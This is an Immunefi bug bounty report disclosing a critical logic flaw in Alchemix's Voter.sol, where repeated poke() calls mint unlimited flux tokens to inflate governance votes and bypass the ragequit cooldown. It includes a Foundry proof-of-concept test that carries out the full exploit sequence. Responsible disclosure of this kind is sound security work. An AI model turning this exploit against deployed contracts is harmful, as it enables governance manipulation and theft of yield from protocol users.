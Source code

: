 
# Manipulation of ve voting mechanism, unlimited boost, circumvention of cooldown

Submitted on Sun May 19 2024 05:53:51 GMT-0400 (Atlantic Standard Time) by @riptide for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31444

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
Logic error in `Voter::poke()` allows any attacker to create a maximum `ve` lock, boost their voting power, vote to manipulate governance proposals with falsified voting power, then circumvent the cooldown period and immediately remove their lock.

## Vulnerability Details
Calling `Voter::poke()`  will call `Voter::_vote()` directly which allows an attacker to bypass the `onlyNewEpoch` modifier that disallows multiple calls per epoch and normally prevents the calling of `Voter::accrueFlux()`. The logic within `Voter::accrueFlux()` contains an additive instruction `unclaimedFlux[_tokenId] += amount;` that allows an attacker to mint himself unlimited `flux` tokens by calling `Voter::poke()` repeatedly.

## Impact Details
The purpose of the `ve` voting and locking mechanism is that a user must lock up tokens for a set time period and is rewarded with greater voting power the longer one locks his tokens. Using this exploit, an attacker is able to lock up significant capital for the max lock time, mint `flux` tokens to further inflate voting power, vote to influence governance proposals with the grossly inflated voting power, then mint an unlimited amount of `flux` tokens to be able to `rage quit` and trigger the cooldown process. Ultimately the attacker only needs to allocate capital for one epoch (cooldown period) to catastrophically and unfairly manipulate governance voting results.  

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept

Add the following test to existing test suite in `FluxToken.t.sol`

```
function testFluxVotingManipulation() external {
        address bribeAddress = voter.bribes(address(sushiGauge));

        uint256 tokenId1 = createVeAlcx(beef, TOKEN_1M, veALCX.MAXTIME(), false);
        uint256 amount1 = veALCX.claimableFlux(tokenId1);
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);

        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint i = 0;
        uint unclaimedFlux;
        uint maxVotingPower;

        hevm.startPrank(beef);

        uint maxBoost = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);
        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId1);

        while(unclaimedFlux < (maxBoost + ragequitAmount)) {
            voter.poke(tokenId1);
            unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        }

        flux.approve(address(veALCX), unclaimedFlux);

        hevm.warp(newEpoch());

        uint maxBoost2 = voter.maxVotingPower(tokenId1) - IVotingEscrow(veALCX).balanceOfToken(tokenId1);

        voter.vote(tokenId1, pools, weights, maxBoost2);

        flux.claimFlux(tokenId1, ragequitAmount);
        flux.approve(address(veALCX), ragequitAmount);

        veALCX.startCooldown(tokenId1);
        hevm.warp(block.timestamp + nextEpoch);
        voter.reset(tokenId1);
        veALCX.withdraw(tokenId1);

        assertEq(IERC20(bpt).balanceOf(beef), TOKEN_1M);

        hevm.stopPrank();
    }
```